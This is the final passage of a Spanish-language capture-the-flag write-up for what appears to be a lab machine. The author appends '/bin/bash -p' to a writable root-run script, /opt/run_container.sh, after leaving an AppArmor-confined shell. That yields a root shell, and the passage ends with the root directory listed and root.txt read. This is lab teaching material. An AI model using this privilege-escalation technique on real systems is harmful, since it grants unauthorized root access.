<br>

Ahora que tenemos una shell que NO está confinada en `apparmor` si podemos escribir sobre el script ya que sigue las directrices oficiales con los bits correspondientes del sistema (rwx):

```shell
think@ip-10-113-181-36:/opt$ echo '/bin/bash -p' >> run_container.sh 
think@ip-10-113-181-36:/opt$ run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 14 seconds

Enter the ID of the container or leave blank to create a new one: 
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
Choose an action for a container: 1
Error response from daemon: page not found
Error: failed to start containers: 
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls -la
total 60
drwx------  7 root  root   4096 Feb 12  2024 .
drwxr-xr-x 18 root  root   4096 Nov  3 09:37 ..
lrwxrwxrwx  1 root  root      9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root  root   3246 Jun 21  2023 .bashrc
drwx------  2 root  root   4096 Nov 11  2023 .cache
drwx------  3 root  root   4096 Dec  8  2023 .config
drwxr-xr-x  3 root  root   4096 Jun 21  2023 .local
lrwxrwxrwx  1 root  root      9 Nov 11  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root  root    161 Dec  5  2019 .profile
-rw-r--r--  1 root  root     75 Nov 13  2023 .selected_editor
drwx------  2 root  root   4096 Dec 20  2023 .ssh
-rw-rw-rw-  1 root  root  12618 Feb 12  2024 .viminfo
-rw-r-----  1 root  root     35 Feb 10  2024 root.txt
drwxr-x---  5 think think  4096 Dec  7  2023 spip
bash-5.0# cat root.txt
[REDACTED]
```

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>